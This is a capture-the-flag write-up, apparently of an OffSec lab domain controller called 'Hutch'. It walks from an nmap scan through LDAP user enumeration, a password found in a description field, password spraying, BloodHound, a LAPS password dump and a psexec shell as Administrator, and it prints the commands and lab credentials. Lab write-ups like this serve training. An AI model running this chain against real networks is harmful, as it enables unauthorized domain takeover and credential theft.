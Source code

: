 `nmap -A -T4 -p- 192.168.193.122`

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Tue, 20 May 2025 00:53:15 GMT
|   Server Type: Microsoft-IIS/10.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-20 00:52:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (92%), Microsoft Windows 10 1903 - 21H1 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This is interesting, we are given a Windoes 2019 server that appears to be the DC for the hutch.offsec0 domain. Well lets see if we can find a way in.

Port 80 is default HTTP IIS page so I am not going to take a deeper look there. 

SMB has nothing as I got access denied as we do not have a user account.

Enum4linux didn't really seem to get us anything as it provided a bunch of access denied.

Lets see if we could use LDAP to do some enumeration of the underlying system. We can use the following command to discover users in a target Windows domain. Sometimes administrators can store information in description fields or we can just gather a list of users for a targeted brute force attack.

```
ldapsearch -H "ldap://192.168.193.122" -x -b "DC=Hutch,DC=offsec" -s sub "(&(objectclass=user))"
```

In the output we find a description containing a password

![](Images/Pasted%20image%2020250519211516.png)

We can now potentially use that to get our foothold.

`fmcsorley:CrabSharkJellyfish192`

Some other users that were found we can combine all that we found into a user list to attempt credential stuffing and see if we get anything.
```
fmcsorley
agitthouse
cluddy
eaburrow
jfrarey
avictoria
jmckendry
oknee
jsparwell
acostello
ltaunton
opatry
rplacidi
```

```
sudo nxc smb 192.168.193.122 -u users.txt -p CrabSharkJellyfish192
```

We get a successful hit for fmcsorley but had to be sure.

![](Images/Pasted%20image%2020250519211932.png)

Now that we have valid credentials we can start to enumerate shares.

![](Images/Pasted%20image%2020250519211954.png)

We can user the spider plus module of crackmap to find anything useful within the shares.

```
sudo nxc smb 192.168.193.122 -u users.txt -p CrabSharkJellyfish192 -M spider_plus --share C$
```

Within SYSVOL seems to be something that we could use lets go ahead and grab that.

![](Images/Pasted%20image%2020250519212208.png)

```
smbmap -u fmcsorley -p 'CrabSharkJellyfish192' -H 192.168.193.122 --download 'SYSVOL\hutch.offsec/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/comment.cmtx'
```

That didn't seem to return much, but now that we have domain credentials we could use bloodhound to see if there's anything of interest to get a foothold potentially.


```
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.193.122 -d hutch.offsec -c all
```


After running and doing some digging through bloodhound, our user has permissions to read LAPS

```
The user FMCSORLEY@HUTCH.OFFSEC has the ability to read the password set by Local Administrator Password Solution (LAPS) on the computer HUTCHDC.HUTCH.OFFSEC.

The local administrator password for a computer managed by LAPS is stored in the confidential LDAP attribute, "ms-mcs-AdmPwd".
```

So lets try and read that information.

```
sudo nxc ldap 192.168.193.122 -u users.txt -p CrabSharkJellyfish192 --m laps
```

![](Images/Pasted%20image%2020250519214016.png)

We get a successful dump of the laps password.

```
Administrator:Y{y]8i8X(.b9A4
```

```
sudo nxc smb 192.168.193.122 -u Administrator -p 'Y{y]8i8X(.b9A4'
```

![](Images/Pasted%20image%2020250519214307.png)

We have the domain admin account. We can establish a shell now if we would like using psexec.

```
psexec.py HUTCH/Administrator:'Y{y]8i8X(.b9A4'@192.168.193.122
```

Great success

![](Images/Pasted%20image%2020250519214535.png)

Time to submit the flags and get on out of here.

![](Images/Pasted%20image%2020250519214634.png)

![](Images/Pasted%20image%2020250519214730.png)

